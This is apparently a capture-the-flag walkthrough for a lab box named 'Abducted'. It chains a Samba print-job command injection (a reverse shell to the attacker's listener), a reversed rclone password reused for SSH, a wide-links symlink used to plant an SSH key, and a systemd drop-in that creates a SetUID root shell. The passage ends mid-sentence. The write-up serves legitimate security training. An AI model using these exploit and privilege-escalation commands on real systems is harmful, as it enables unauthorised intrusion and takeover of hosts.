Abducted
Abducted is built around the on-premise file and print server of a professional-services firm.
An unauthenticated Samba print-subsystem command injection (CVE-2026-4480) passes a client-supplied
print-job name to the shell unescaped and lands a shell as nobody. From there an
rclone offsite-backup config holds an obfuscated password that decodes with rclone's
own tooling and turns out to be reused for scott. A second Samba share configured with
force user = marcus and wide links = yes is abused to plant an SSH key in
marcus's home and log in as marcus. marcus belongs to a custom operators group that can
write the smbd systemd drop-in directory and is granted a no-auth
daemon-reload via a loose polkit rule - so an ExecStartPre drop-in makes a
SetUID bash and hands us root.
Abducted chains a handful of small Samba and Linux misconfigurations into a full compromise, and
not one of them needs a brute-force. Every step hands you exactly one credential or one capability,
and the box is really about asking "okay, where does this get me next?" It's also a nice
reminder to read the box name as a hint - by the end we're literally abducting scott,
then abducting marcus, then abducting root.
01Enumeration
Starting with our humble scan, we find 3 open TCP ports:
$ nmap -sCV -p- -T4 10.129.244.177
Ports 22 (SSH), 139 (NetBIOS) and 445 (SMB) are open. We can also see that the NetBIOS name is Abducted. Usually with HTB, the name of the box is a big hint about the direction it's going or how to progress - this is just a giant neon sign pointing us at the SMB service, so let's see what the next guided step asks of us.
The guest-accessible printer share
We know from our scan that SMB is here, so let's use smbclient to see what we can find,
shall we?
$ smbclient -L //10.129.244.177 -N-L- list the available shares on the target.-N- suppress the password prompt (anonymous / null session).

HP-Reception share, with Printer as its typeWe see a share named HP-Reception with Printer as its type. Being able to list
it over an anonymous session already tells us the print subsystem is exposed - hold that thought.
Identifying the CVE
We should get a bit more information on our SMB target so we can identify the version and any
potential vulnerabilities before we go looking for exactly what CVE we're dealing with. Guided mode
holds your hand here, but it's useful to know how we'd do it ourselves - just seeing
Samba smbd 4 from nmap isn't enough to pin down which vulnerability we're after.
A great tool for this is enum4linux-ng.
We can reach for it when one or more of these are true:
- SMB is accessible on 445/tcp
- We want to check SMB over NetBIOS
- SMB over NetBIOS is accessible on 139/tcp
There are other tools we could use here - netexec smb (formerly CrackMapExec), or
nmap -p445 --script "smb-os-discovery,smb-protocols,smb2-security-mode" <IP> - but
let's stick with enum4linux-ng for this box because I like it.
Installation
It isn't on the HTB Pwnbox by default, so we install it first:
$ git clone https://github.com/cddmp/enum4linux-ng.git
$ cd enum4linux-ng
$ pip3 install -r requirements.txtRun it against the target
$ ./enum4linux-ng.py 10.129.244.177 -A-A means "do all simple enumeration" - it runs the following together:
- users (
-U) - shares (
-S) - groups (
-G) - password policy (
-P) - OS info (
-o) - names / nmblookup (
-n) - printer info (
-i)
Analyze the results




HP-Reception- type: Printer, "Reception printer", Mapping: OK. A printer share you can map anonymously, and the RPC section confirms it again under "Printers." "Printers via RPC" working means the box's print subsystem (the spooler) is exposed and answering RPC calls from an unauthenticated session. On a Samba box, an exposed, mappable printer share is unusual and interesting.- The two disk shares (
projects,transfer) come back Mapping: DENIED - they need credentials we don't have yet. That's a note for post-foothold looting later. - User
scott(Scott Mercer), RID 1000. We have his username, not his credentials. This may be useful later. - The server-type string contains "Unx" (Unix) and the daemon is
smbd, so we can be confident this is Linux despite the "OS: Windows 7 / 6.1" line. That field comes from the SMB protocol's self-reported OS value (viasrvinfo/ RPC), and it's simply whatever the server chooses to announce - don't trust it.
So what's unusual here that helps us look up the CVE? There's an exposed printer share we can
map anonymously. If we tailor a search around Samba, smbd 4, the print spooler and so on, we
should be able to find it. We could also lean on searchsploit to help (though it's offline,
so it can lag behind the latest CVEs).
A search for "Samba print spooler command injection RCE 2026" lands us on a SentinelOne vulnerability-database page for CVE-2026-4480, filed under CWE-78 (OS command injection). That fits our situation perfectly - we don't want to DoS anything, we want access.
print command that runs whenever a job is printed, and it
substitutes the client-supplied job description into that command via the %J
placeholder. The vulnerable code drops that job name straight into the shell without escaping
shell metacharacters. So an attacker who can submit a print job to a print share can name the
job with shell control characters, and the injected payload executes in the context of the Samba
print service - arbitrary command execution on the host. That's exactly why an anonymously-mappable
printer share was such a loud signal during recon.
02Foothold - CVE-2026-4480

This payload looks promising. Let's copy the code into a Python script and let it rip. After copying the exploit in, we point it at the target, give it our attack IP and a listener port, and run it:
# start the listener first
$ nc -lvnp 4444
# then fire the exploit (target, our IP, our port)
$ python3 exploit.py 10.129.244.177 10.10.15.114 4444

nobody in /var/spool/samba. Spooky.After copying the exploit, setting up a listener (nc -lvnp 4444), and running it... we
get a shell! We're currently a user called nobody. Spooky.
nobody is fragile - one stray Ctrl-C and it's gone. Upgrade to a
proper TTY before you start enumerating:
python3 -c 'import pty; pty.spawn("/bin/bash")' then export TERM=xterm.
03Lateral to scott - credential reuse
id, hostname, sudo -l and a few others were run as a cursory
glance at what we can see:
$ id # uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
$ hostname # abducted
nobody is about as low as it gets - uid 65534, no useful groupsHeading into /home/ shows us two names: scott (which we saw earlier in
enum4linux-ng) and a new one, marcus. Our permissions are denied for both. nobody
has no path forward on its own, so the whole game now is finding a credential that gets us somewhere.
Hunting for a readable secret
Since we're a nobody, we need to find a config that's world-readable or group-readable
even though it holds a secret. That is our misconfiguration. Let's start with non-default
tools and binaries:
$ ls -la /usr/local/bin
/usr/local/bin/printaudit - the print-audit hook from the share configWe find a printaudit script, but there's nothing of worth inside - it just appends a
timestamped line to a log and exits. Good to check, then cross it off. On to /opt:
$ ls /opt # offsite-backup
$ cd /opt/offsite-backup && ls # rclone.conf sync.sh
rclone.conf - user svc-backup and an obscured passwordInside /opt/offsite-backup is an rclone.conf, and reading it turns up some
interesting finds: a user svc-backup and a long password. The format is a bit strange
though, isn't it? That's actually rclone's obscured version of the original password.
backup.hartley-group.internal),
driven by the sync.sh we saw next to it. rclone.conf stores the credentials
for every remote it talks to - in our case the username and password for the backup service account.
The kicker: rclone's "obscure" is reversible obfuscation, not encryption. Anyone who
can read the config can recover the plaintext. So a world-readable config plus a password
that only looks protected means the credential is effectively sitting in the clear.
The username the guided step is asking about is right there in the file: svc-backup.
Decode it with rclone's own tooling
We could keep looking around, but this is already juicy, so let's see if rclone is on the box - if it is, we can have rclone deobfuscate its own config for us:
$ command -v rclone
rclone is present on the boxIt's there. Now let's have it reveal its own obfuscated password. The reveal subcommand
just runs the reversible algorithm on whatever string you hand it - no config, no network, no key
exchange needed. That is the whole point of the "obscure isn't encryption" lesson:
$ rclone reveal 'HZKAxfnMj-nLm59X9gpcC2ohjQL-WqVT6yRsNw'
rclone reveal hands back the plaintextThat looks deobfuscated to me. Now the instinct to build: this is a password for a service
account (svc-backup), not scott directly - but admins love to reuse a password they set
once. Could this be scott's password too? Let's test the reuse:
$ su scott # paste the revealed password
scottPrivilege-reuse success! Let's SSH in as scott for a more stable shell before we go further:
$ ssh scott@10.129.244.177
scottAnd we grab the user flag from scott's home directory:
$ cat /home/scott/user.txt
/home/scott/user.txt [redacted, no spoilers]04Lateral to marcus - Samba wide-link abuse
We got in through Samba, so why don't we go read the configuration to learn more about it? Start with the main config:
$ cat /etc/samba/smb.conf
smb.conf - allow insecure wide links = yes and unix extensions = noWe see that allow insecure wide links is set to yes, and just above it
unix extensions is set to no. These two matter together, because wide links
only work when unix extensions are off. In other words, Samba is configured to follow symlinks that
point outside a share's directory. If we can write a symlink into a share, we can potentially
read (or write) files the share was never meant to expose. There's also an
include = /etc/samba/shares.conf, so let's look at that too:
$ cat /etc/samba/shares.conf
[transfer] share - valid users = scott, force user = marcus, wide links = yesThe [transfer] share is the crown jewel. Three options stack up on it:
valid users = scott- we need to authenticate as scott to touch it (which we can).force user = marcus- but once we're in, every file operation runs as marcus. So we'd read and write with marcus's permissions even though we logged in as scott.wide links = yes- and we can follow symlinks out of/srv/transferto anywhere on the box.
Chain those together and the plan becomes: authenticate as scott → operate as
marcus → symlink our way out of the share → read/write whatever
marcus can. (Seems like we'd be abducting marcus by first abducting scott, no? Clever box name.) These
answer two guided questions in one go: the directive that lets the transfer share follow symlinks
outside itself is wide links, and the user all file operations are forced
to run as is marcus.
Planting the symlink
To break out of the share we need a symlink inside it that points to where we actually want
to go - marcus's home. So how do we plant it? Normally you'd create it over SMB with smbclient's
symlink command, but that relies on SMB unix extensions, and we just saw
unix extensions = no in smb.conf. So the smbclient symlink
command is off the table - we have to plant the symlink on the filesystem instead, which is fine
because we have a local shell as scott.
The two-part trick:
- Plant the symlink from the scott shell (the on-disk side): drop a symlink inside
/srv/transferthat points out to/home/marcus(you could link to/if you want to roam the whole filesystem). - Write through it over SMB (the force-user side): because
[transfer]isforce user = marcus, anything weputvia smbclient lands owned by marcus, and wide links lets the server follow our symlink out of the share into marcus's.ssh. That's how we write anauthorized_keysinto a home directory we otherwise can't touch.
Let's not get ahead of ourselves - first confirm it's even possible. Connect to the share as scott:
$ smbclient //localhost/transfer -U scott
[transfer] as scottFrom the smb: \> prompt, smbclient lets us shell out to a local command with
!, which runs as scott. Check whether scott can write into the share directory on disk:
smb: \> !ls -ld /srv/transfer
/srv/transfer is owned by scott with rwx - so scott can write there directlyscott owns it (scott scott) with rwx, so we can plant our symlink. Point
it at marcus's home:
smb: \> !ln -s /home/marcus /srv/transfer/pwn
cd pwn follows the symlink out of the share - we're now looking at marcus's homeWe make a link called pwn, and when we cd into it over SMB we're shown
marcus's home directory contents - files that physically live outside the share. The
containment break worked, and because of force user everything we do here runs as marcus.
Time to abduct marcus.
Drop an SSH key and log in as marcus
There's no .ssh in marcus's home yet, so we'll create one and drop our public key into
it. Generate the keypair locally via smbclient's ! shell-out, then upload the public half
as authorized_keys:
# 1. make a keypair (no passphrase) in /tmp
smb: \> !ssh-keygen -t ed25519 -f /tmp/mkey -N ""
# 2. stage it as an authorized_keys file
smb: \> !cp /tmp/mkey.pub /tmp/authorized_keys
# 3. back at the SMB layer, inside marcus's home: create .ssh and upload
smb: \> mkdir .ssh
smb: \> cd .ssh
smb: \> put /tmp/authorized_keys authorized_keys.ssh directory and
authorized_keys file are owned by marcus. Samba's default masks
(directory 0755, file 0744) mean no group/other write, which satisfies
sshd's StrictModes check - so sshd will happily read the key. Run each smbclient command one at a
time; pasting several at once can jumble the filenames.
Now log in as marcus with the private key, from the scott shell or a fresh terminal:
$ ssh -i /tmp/mkey marcus@localhost
marcus05Privilege escalation to root - systemd drop-in + polkit
First, what does marcus have that scott didn't? Check his groups:
$ id marcus # uid=1001(marcus) gid=1002(marcus) groups=1002(marcus),1000(operators)
operators (gid 1000)The sore thumb sticking out is group 1000, operators.
Everything else is just marcus's own personal group; operators is the custom one a sysadmin
created on purpose, and standard installs don't ship it. So what does this group actually let marcus
do? A group only matters for what it owns or can write, so let's map its reach:
$ find / -group operators 2>/dev/nullThis walks the filesystem from / and keeps only files whose group owner is
operators - and the 2>/dev/null on the end throws all the "Permission denied"
noise in the trash so we only see real hits.

/etc/systemd/system/smbd.service.d - a directory the operators group ownsThe hit is /etc/systemd/system/smbd.service.d - the drop-in directory
for the smbd unit, and smbd runs as root. We're getting close.
The idea forming is: drop in a snippet that makes smbd execute something as root, have
systemd pick it up, and restart smbd. The hard part is the middle step - telling systemd to
reload normally needs root auth... unless a polkit rule says otherwise.
polkitd) whether you're allowed. polkit answers yes, no, or
"yes, after you authenticate" - that "authentication required, enter your password" prompt on Linux
is polkit. It lets an admin grant fine-grained privileged capabilities to specific users or groups
without handing them full root or a sudo entry - and that flexibility is exactly what makes
it a privesc surface when it's configured too loosely.
A polkit action is a single named privileged operation, written in reverse-DNS form. systemd ships a fixed catalog of them (in
/usr/share/polkit-1/actions/org.freedesktop.systemd1.policy):
org.freedesktop.systemd1.manage-units (start/stop/restart units),
org.freedesktop.systemd1.manage-unit-files (enable/disable), and
org.freedesktop.systemd1.reload-daemon (reload the manager, i.e. daemon-reload).
A polkit rule is the policy that decides the outcome for a given action and subject
(user/group), returning YES, NO, or an auth challenge. If a rule returns
YES for a systemd action to a non-admin group like operators, that group can
drive systemd without a password.
So the polkit action the guided step is asking about - the one that lets marcus reload the systemd
manager without authentication - is org.freedesktop.systemd1.reload-daemon.
We know the name from systemd's action catalog above (the phrase "reload the manager" maps to
exactly one action), and we'll prove it's actually ungated in a moment by just running it.
Confirm the pieces before committing
Group ownership isn't the same as group write permission - a directory can be
operators-owned but still 750 (no group write). So verify:
$ ls -ld /etc/systemd/system/smbd.service.d
drwxrws--- - the operators group has rwx (write confirmed), and the setgid bit is setReading the group triad drwxrws---: operators has rws, so the
w is there - any member of the group (marcus) can write into this directory. The trailing
s is the setgid bit, so any file marcus creates here inherits the operators
group. And other is ---, which is our independent confirmation that scott
couldn't even enter this directory - becoming marcus wasn't optional, it was structurally required.
That gives us a fully verified chain, everything but the empirical polkit check:
- marcus is in
operators(id marcus) ✓ operatorscan write thesmbddrop-in dir (ls -ld) ✓smbdruns as root (fromps auxearlier) ✓- marcus can
daemon-reload/restart without auth - prove it now that we're marcus.
Fire the chain
Confirm we're marcus and cash the empirical polkit check:
$ id
$ systemctl daemon-reload
reload-daemon really is ungated for marcusservice.d/
directory and systemd will keep running the old cached version, oblivious. daemon-reload
is the command that forces it to re-scan from disk and rebuild that in-memory picture; the
next start/restart then uses the updated definition. That's why our attack sequence has to
be plant → reload → restart: without the reload, the restart just re-runs the harmless
original.
We also knew to reach for it because the box told us - the whole point of the loose polkit rule is to ungate
reload-daemon, and a box only bothers ungating an action when that action is a
required step in the intended path. As for proving it: run it as a non-root user and watch how
systemd reacts. A silent success (no auth prompt, exit code 0) means polkit answered
YES - ungated. A password prompt or an "Interactive authentication required" error means
it's gated. A normal box would gate daemon-reload every time, so the silent success is
the observable fingerprint of the misconfigured rule - we're watching the vulnerability behave, not
just theorizing it.
Now plant a drop-in that makes smbd (root) run our command. Rather than SetUID-ing the
system bash directly (noisy - it changes a core binary), we copy one off to a private SetUID shell,
which is cleaner hygiene and easier to clean up afterward:
$ printf '[Service]\nExecStartPre=/bin/cp /bin/bash /tmp/rootbash\nExecStartPre=/bin/chmod 4755 /tmp/rootbash\n' > /etc/systemd/system/smbd.service.d/pwn.confThen load it and trigger it:
$ systemctl daemon-reload
$ systemctl restart smbdThe restart needs the unit-management action (manage-units), which is
